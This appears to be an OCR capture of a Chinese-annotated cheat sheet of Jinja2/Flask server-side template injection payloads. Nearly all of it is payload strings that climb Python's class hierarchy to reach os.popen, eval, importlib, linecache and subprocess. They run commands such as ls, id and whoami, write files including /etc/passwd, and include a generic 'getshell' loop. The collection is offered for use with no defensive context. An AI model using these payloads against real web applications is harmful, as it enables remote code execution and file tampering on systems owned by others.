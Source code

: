 ```
{{&#39;&#39;.__class__.__base__.__subclasses__()[128].__init__.__globals__[&#39;os&#39;].popen(&#39;ls /&#39;).read()}}


#调用eval函数读取
#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#34;__import__(&#39;os&#39;).popen(&#39;ls&#39;).read()&#34;)}} 
{{&#34;&#34;.__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).system(&#34;ls&#34;)&#39;)}}
{{&#34;&#34;.__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).system(&#34;ls&#34;)&#39;)}}
{{&#34;&#34;.__class__.__mro__[-1].__subclasses__()[29].__call__(eval,&#39;os.system(&#34;ls&#34;)&#39;)}}
#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[&#39;eval&#39;](&#34;__import__(&#39;os&#39;).popen(&#39;id&#39;).read()&#34;)}} 
{{&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13][&#39;eval&#39;]}}
{{&#34;&#34;.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;]}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[250].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#34;__import__(&#39;os&#39;).popen(&#39;id&#39;).read()&#34;)}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval(&#34;__import__(&#39;os&#39;).popen(&#39;id&#39;).read()&#34;)}}
{{&#39;&#39;.__class__.__base__.__subclasses__()[128].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls /&#34;).read()&#39;)}}


#调用 importlib类
{{&#39;&#39;.__class__.__base__.__subclasses__()[128][&#34;load_module&#34;](&#34;os&#34;)[&#34;popen&#34;](&#34;ls /&#34;).read()}}


#调用linecache函数
{{&#39;&#39;.__class__.__base__.__subclasses__()[128].__init__.__globals__[&#39;linecache&#39;][&#39;os&#39;].popen(&#39;ls /&#39;).read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__[&#39;linecache&#39;][&#39;os&#39;].popen(&#39;ls&#39;).read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen(&#39;ls /&#39;).read()}}


#调用communicate()函数
{{&#39;&#39;.__class__.__base__.__subclasses__()[128](&#39;whoami&#39;,shell=True,stdout=-1).communicate()[0].strip()}}


#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{&#34;&#34;.__class__.__bases__[0].__bases__[0].__subclasses__()[40](&#39;/tmp&#39;).write(&#39;test&#39;)}}  ----python2的str类型不直接从属于属于基类，所以要两次 .__bases__
{{&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__[&#39;__builtins__&#39;][&#39;file&#39;](&#39;/etc/passwd&#39;).write(&#39;123456&#39;)}}


#通用 getshell
原理就是找到含有 __builtins__ 的类，然后利用。
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__==&#39;catch_warnings&#39; %}{{ c.__init__.__globals__[&#39;__builtins__&#39;].eval(&#34;__import__(&#39;os&#39;).popen(&#39;whoami&#39;).read()&#34;) }}{% endif %}{% endfor %}
```